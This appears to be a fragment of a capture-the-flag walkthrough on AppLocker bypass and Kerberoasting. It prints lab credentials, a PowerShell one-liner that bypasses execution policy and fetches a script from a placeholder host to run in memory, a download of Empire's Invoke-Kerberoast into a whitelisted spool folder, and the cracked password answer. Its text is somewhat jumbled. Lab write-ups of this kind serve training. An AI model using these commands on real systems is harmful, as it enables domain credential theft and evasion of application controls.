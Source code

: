 ## Table of Contents


AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, published, and hash.
```
Username: corp\dark  
Password: _QuejVudId6
```
  
Now we have seen there is an SPN for a user, we can use `Invoke-Kerberoas`t and get a ticket.

Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).

```
powershell -ep bypass;  
iex​(New-Object Net.WebClient).DownloadString('https://YOUR_IP/Kerberoast.ps1')
```



Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat ​ |fl`

You should get a SPN ticket.

```
powershell -c "(new-object System.Net.WebClient).Downloadfile('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1', 'C:\Windows\System32\spool\drivers\color\Invoke-Kerberoast.ps1')"
```

Crack the hash. What is the users password in plain text?
**rubenF124**

